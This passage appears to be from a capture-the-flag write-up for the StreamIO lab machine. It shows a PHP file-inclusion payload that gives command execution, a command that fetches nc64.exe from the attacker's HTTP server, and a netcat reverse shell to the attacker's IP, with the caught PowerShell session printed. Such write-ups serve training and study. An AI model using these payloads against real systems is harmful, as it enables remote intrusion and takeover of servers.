 
I tried to read the user.txt 

```bash
"https://streamio.htb/admin/?debug=master.php&cmd=type+C:\\Users\yoshihide\Documents\user.txt"
```
Didn't work so I decided to postpone it until I get a shell. 

Let's upload netcat.

```bash
└─$ curl -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=irrhssh3g3mmf41mu64v6oei7q" "https://streamio.htb/admin/?debug=master.php&cmd=curl+http://10.10.14.8:8081/nc64.exe+-o+C:\\ProgramData\\nc64.exe"

```

```bash
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.158 - - [12/Sep/2022 16:16:32] "GET /nc64.exe HTTP/1.1" 200 -
```

Netcat is listening on port 1337

```
curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=irrhssh3g3mmf41mu64v6oei7q" "https://streamio.htb/admin/?debug=master.php&cmd=cmd+/c+C:\\ProgramData\\nc64.exe+-e+powershell+10.10.14.8+1337
```

Got the shell: 

```bash
└─$ nc -lnvp 1337     
listening on [any] 1337 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.158] 63079
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\streamio.htb\admin> ls
ls


    Directory: C:\inetpub\streamio.htb\admin


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        2/22/2022   2:49 AM                css                                                                   
d-----        2/22/2022   2:49 AM                fonts                                                                 
d-----        2/22/2022   2:49 AM                images                                                                
d-----        2/22/2022   3:19 AM                js                                                                    
-a----         6/3/2022   1:51 AM           2401 index.php                                                             
-a----         6/3/2022   1:53 AM           3055 master.php                                                            
-a----        2/23/2022   2:16 AM            878 movie_inc.php                                                         
-a----        2/23/2022   2:16 AM            936 staff_inc.php                                                         
-a----        2/23/2022   2:16 AM            879 user_inc.php  
```
